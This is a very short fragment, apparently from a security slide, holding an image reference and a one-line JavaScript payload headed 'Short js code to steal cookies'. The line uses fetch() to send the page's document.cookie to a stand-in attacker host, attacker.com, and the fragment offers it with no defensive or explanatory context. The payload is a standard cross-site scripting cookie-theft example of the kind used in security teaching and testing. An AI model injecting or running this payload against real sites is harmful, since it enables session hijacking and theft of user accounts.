

# Short js code to steal cookies:
fetch(‘//attacker.com/?cookie=’+document.cookie)